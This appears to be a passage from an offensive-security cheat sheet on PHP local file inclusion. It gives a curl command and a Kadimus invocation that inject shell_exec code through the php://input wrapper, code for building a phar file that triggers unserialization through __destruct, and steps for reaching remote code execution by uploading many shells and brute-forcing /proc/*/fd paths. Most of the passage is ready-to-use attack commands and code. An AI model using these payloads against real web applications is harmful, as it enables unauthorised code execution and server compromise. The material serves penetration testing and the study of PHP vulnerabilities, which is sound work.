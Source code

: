 ## Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple curl command.

```
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```
Alternatively, Kadimus has a module to automate this attack.

```
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

## Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```
// create new Ph
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the php:// wrapper, then its serialized metadata is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, file_exists and many more.

## LFI to RCE via /proc/*/fd

  1.) Upload a lot of shells (for example : 100)
  2.) Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
